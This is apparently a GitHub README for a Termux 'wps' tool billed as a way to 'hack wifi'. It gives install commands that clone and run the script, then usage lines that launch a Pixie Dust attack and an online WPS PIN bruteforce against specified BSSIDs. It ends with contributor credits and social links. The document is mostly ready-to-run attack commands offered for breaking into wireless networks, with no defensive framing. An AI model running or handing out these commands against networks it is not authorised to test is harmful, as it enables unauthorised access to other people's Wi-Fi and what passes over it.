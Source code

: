 # wps
Hack wifi using termux (rooted)

## <a href = "https://t.me/cybersh_official/127" > Tutorial</a>

### Installation :

```bash
pkg update && pkg upgrade -y && 
pkg install root-repo -y &&
pkg install git tsu python termux-api wpa-supplicant pixiewps iw -y &&
git clone https://github.com/Gtajisan/wps &&
pip install requests &&
sudo python wps/wps.py -i wlan0 -K

```
### Single cmd Setup
```
https://github.com/Gtajisan/wps
```
#### Example : 
```
sudo python wps/wps.py -i wlan0 -K
```

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
```
sudo python wps.py -i wlan0 -K
```
- Start Pixie Dust attack on a specified BSSID:
```
sudo python wps.py -i wlan0 -b 00:91:4C:C3:AC:28 -K
```
- Launch online WPS bruteforce with the specified first half of the PIN:
```
 sudo python wps.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234
```
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
#### Modify History : 
rofl0r => Biri_B@B@ => Mohammad_Alamin (Toxinum) => SH TASRIF (CYBER SH)
<br>
<h3>Visitors :</h3>
<br>
<img src="https://profile-counter.glitch.me/ShTasrif/count.svg" alt="Visitors">

<div align="center">

<h3>━━━━ Connect with me ━━━━</h3>

<a href="https://fb.com/FRHAN MUH TASIM" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="TOXIC-VIRUS" height="30" width="40" /></a>
<a href="https://twitter.com/JISAN GTA" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/twitter.svg" alt="cybershbd" height="30" width="40" /></a>
<a href="https://fb.com/FRHAN MUH TASIM" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="Mohammad Alamin" height="30" width="40" /></a>
<a href="https://instagram.com/cybershbd" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/instagram.svg" alt="akxvau" height="30" width="40" /></a>

</div>
